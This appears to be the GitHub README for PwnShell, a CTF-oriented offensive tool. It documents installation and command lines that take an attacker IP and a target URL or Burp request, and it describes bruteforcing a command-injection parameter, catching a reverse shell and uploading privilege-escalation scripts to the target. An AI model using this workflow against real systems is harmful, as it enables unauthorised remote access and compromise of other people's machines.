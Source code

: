 

# PwnShell

### PwnShell is a tool that will help you get a reverse shell and upload post-exploitation scripts to target machine instead of wasting your time with this regular ctf stuff... just confirm the injection point and feed it to this dumb tool.
<details>
    <ol>
    <li><div>Bruteforces the Vulnerable Parameter</div></li>
    <li><div>Recieve and Handle the Connection</div></li>
    <li><div>Downloads Post exploitation scripts from their Repos.</div></li>
    <li><div>Uploads them to target</div></li>
    <li><div>Activates a TTY shell using Python3 </div></li>
    <li><div>Enjoy!</div></li>
  </ol>
</details>

![Alt text](https://github.com/zAbuQasem/PwnShell/blob/main/Screenshots/PwnShell.png)

## Navigation:
   <ol>
    <li><a href="#installation">Installation</a></li>
    <li><a href="#usage">Usage</a></li>
    <li><a href="#contact">Contact</a></li>
    <li><a href="#acknowledgements">Acknowledgements</a></li>
  </ol>

## Installation:

1. Clone the repo
   ```sh
   git clone https://github.com/zAbuQasem/PwnShell
   ```
2. Install the dependencies
   ```sh
   cd PwnShell/
   pip3 install -r requirements.txt
   ```
3. Make the script executable 
   ```sh
   chmod +x pwnshell.py
   ```

<!-- USAGE EXAMPLES -->
## Usage:
### Request-File Method [Recommended] 👇
```sh
./pwnshell.py -i [Attacker-IP] -f [REQUEST FILE] -s (To use https prefix)
```
#### Example:
-Copy from Burp or Network tab

-Replace the Vulnerable place in the parameter with 'PWNME'
```sh
GET /Vulnerable.php?cmd=PWNME HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```
### URL Method 👇
```sh
./pwnshell.py -i [Attacker-IP] -p [Attacker-Port] -u [TARGET-URL] -m [REQUEST-METHOD] -c [COOKIES (optional)] -H [HEADERS (optional)]

#Note: Cookie and headers must be in JSON format (if provided).
   ```
```sh
./pwnshell.py -i [Attacker-IP] -u http/s://<TARGET>/vulnerable.php?cmd=PWNME --method GET --cookies '{"key" : "value"}' 
```
#### Example:
-Replace the Vulnerable place in the parameter with 'PWNME'
```sh

./pwnshell.py -H 127.0.0.1 -u http://10.10.10.10/vulnerable.php?cmd=PWNME
```

## Preview:
### Using [Request-File Method]
![Alt text](https://github.com/zAbuQasem/PwnShell/blob/main/Screenshots/requestfile-demo.gif)

### Using [URL Method]
![Alt text](https://github.com/zAbuQasem/PwnShell/blob/main/Screenshots/url-demo.gif)


<!-- CONTACT -->
## Contact:

**Zeyad AbuQasem** - [LinkedIn](https://www.linkedin.com/in/zeyad-abuqasem/)

**Omar Albalouli** - [LinkedIn](https://www.linkedin.com/in/omar-albalouli/) & [Github](https://github.com/omaralbalolly)

<!-- ACKNOWLEDGEMENTS -->
## Acknowledgements:
* [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
* [LinEnum](https://github.com/rebootuser/LinEnum)
* [Linux Exploit Suggester](https://github.com/mzet-/linux-exploit-suggester)
* [Docker Privesc Script](https://github.com/flast101/docker-privesc)
* [SUID3NUM](https://github.com/Anon-Exploiter/SUID3NUM)
* [Burpee](https://github.com/xscorp/Burpee)
